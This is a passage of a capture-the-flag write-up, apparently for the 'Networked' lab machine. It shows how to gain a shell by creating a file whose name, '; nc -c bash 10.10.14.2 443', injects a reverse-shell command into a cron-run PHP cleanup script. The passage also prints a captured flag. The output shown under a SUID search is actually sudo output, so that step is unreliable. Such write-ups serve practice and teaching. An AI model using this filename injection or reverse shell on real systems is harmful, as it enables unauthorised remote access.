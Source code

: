 * This script run **every three minutes**, this crontab executes php **script**.

* The task of **php script** is try to remove all files in `/var/www/html/uploads/`, we try to execute command to get `bash` how guly

* You need to create a file in `/var/www/html/uploads/`, this name will be `; nc -c bash <tun0 IP> <Port>`

**Explanation**
* For separate commands you use `;`, Ex.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Networked]
└─\ file backup.tar; whoami
backup.tar: POSIX tar archive (GNU)
root
```

* The name file try to execute other command.

15. Listen with nc on port choose in your computer.
16. After create file, wait
```bash
bash-4.2$ touch '; nc -c bash 10.10.14.2 443'
```


17. We obtain a shell how **guly**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Networked]
└─| nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.146] 58352
whoami
guly
```

18. Cat **user flag**
```bash
[guly@networked ~]$ cat user.txt 
9e2388fe8d8fe7850a0d250b0cc5e394
```

---
---
---

## **Privileges Escalation** 💀
1. Search files with 4000 permissions
```bash
[guly@networked ~]$ find / -perm -4000 2>/dev/null
```

**Output**
```bash
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
